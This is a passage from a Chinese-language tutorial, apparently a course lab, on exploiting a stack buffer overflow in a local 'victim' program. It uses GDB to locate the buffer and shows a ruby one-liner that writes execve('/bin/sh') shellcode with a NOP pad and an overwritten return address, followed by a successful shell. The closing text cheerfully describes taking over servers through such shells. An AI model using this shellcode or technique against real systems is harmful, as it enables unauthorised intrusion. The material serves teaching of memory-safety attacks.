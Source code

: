 ``` language-bash
0x00007fffffffe3d2 in ?? ()
(gdb)
```
　　Illegal instruction？为啥会这样呢？我们不是已经做好一切工作了嘛！有了恶意代码，也知道了恶意代码的起始地址，甚至还成功将函数的返回地址修改成了恶意代码的起始地址，按理来说，程序返回后就应该去执行我们的恶意代码呀。
　　然而，这是幻觉。我们可以看一下`0x7fffffffe3d0`附近的指令，是不是很奇怪，这根本不是我们设计的恶意代码呀！这时错误原因很明显了，`0x7fffffffe3d0`原来不是恶意代码的起始位置！
　　这似乎有些矛盾。我们前面提到GDB有关闭`stack randomization`，那么程序的初始栈顶地址应该是不变的，从而buffer的地址也不应该变。但事实并不是这样，因为我们忽视了一个条件：**不受其他外界因素的影响**。这里出现的外界因素是什么呢？其实就是我们输入的数据自身，要知道我们把这些数据作为参数传给`main`函数时，它们是要被压入堆栈的，这会使得栈顶地址变得更小，从而buffer对应的地址也会更小，不再是原来的`0x7fffffffe3d0`了。我们需要重新获取正确的buffer地址，这次我们还是将`evil.bin`作为参数：
``` language-bash
# 获取正确的buffer地址
   ┌─────────────────────────────────────────────────────────────────────────┐
B+ │0x401170 <foo+12>       mov    -0x48(%rbp),%rdx                          │
   │0x401174 <foo+16>       lea    -0x40(%rbp),%rax                          │
  >│0x401178 <foo+20>       mov    %rdx,%rsi # 程序暂时停在这里              │
   │0x40117b <foo+23>       mov    %rax,%rdi                                 │
   │0x40117e <foo+26>       callq  0x400320                                  │
   │0x401183 <foo+31>       leaveq                                           │
   │0x401184 <foo+32>       retq                                             │
   │0x401185 <main>         push   %rbp                                      │
   │0x401186 <main+1>       mov    %rsp,%rbp                                 │
   └─────────────────────────────────────────────────────────────────────────┘
child process 21854 In: foo                           Line: 6    PC: 0x401178
(gdb) p/x $rax
$1 = 0x7fffffffe380
(gdb)
```
　　原来`0x7fffffffe380`才是真正的buffer地址，话不多说，赶紧修改`evil.bin`中的数据，将`\xd0\xe3\xff\xff\xff\x7f`换为`\x80\xe3\xff\xff\xff\x7f`，然后重新使用GDB观察攻击是否生效：
``` language-bash
# 重新测试
3130104006@hamsa:~/project3$ ruby -e 'print "\xeb\x24\x48\x31\xc0\x48\x89\x44\x24\x08\x48\x8b\x3c\x24\x88\x47\x07\x48\x8d\x34\x24\x48\x31\xd2\xb0\x3b\x0f\x05\x48\x31\xc0\xb0\xe7\x48\x31\xff\x0f\x05\xe8\xd7\xff\xff\xff/bin/sh"+"\x90"*22+"\x80\xe3\xff\xff\xff\x7f"' > evil.bin
3130104006@hamsa:~/project3$
3130104006@hamsa:~/project3$ gdb victim -q
Reading symbols from /home/3130104006/project3/victim...done.
(gdb) r `cat evil.bin`
Starting program: /home/3130104006/project3/victim `cat evil.bin`
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffd000
process 22411 is executing new program: /bin/dash
$
$ echo $0
/bin/sh
$
$ uptime
 10:33:04 up 5 days,  4:58, 13 users,  load average: 0.00, 0.01, 0.05
$
$ exit
[Inferior 1 (process 22411) exited normally]
(gdb) q
3130104006@hamsa:~/project3$
```
　　哇！这次是真正的成功了。我们看到，在利用`evil.bin`内的数据作为程序参数时，程序会自动执行`/bin/sh`，我们也能在这个shell中执行一些常用的Linux命令。这就是一次非常简单的`buffer overflow`攻击呀！
　　可能有些同学看到这里，会觉得这个攻击好low啊，就跑了一个shell，又不是拿到了什么管理员密码啥的，并没有什么作用嘛。其实不然，跑出一个shell是一件很有意义的事！试想一下，假设某个网站有一个输入框，要求用户输入自己的账号，而聪明的你发现经过某些特别的手段(不一定是`buffer overflow`)，能够使网站后台程序接收到你的输入后跑出shell，此时你一定乐坏了。因为你能够通过输入命令查看到服务器的很多重要信息！注意，此时你的身份不一定是root，这取决于执行网站程序的用户身份，如果刚好是root在跑这个网站程序，那么恭喜你，你拥有了root的权限，这台服务器已经属于你了；如果不是，那也不要紧，起码这个服务器的一部分已经属于你。
　　

  [1]: http://static.zybuluo.com/hac/ievx030z55g087jjjzdek5dy/Selection_093.png
  [2]: http://static.zybuluo.com/hac/o2ovzv62jrr95vlzrdxzug1x/Selection_094.png
  [3]: http://static.zybuluo.com/hac/73mrfpgsumtjebroggovldju/Selection_095.png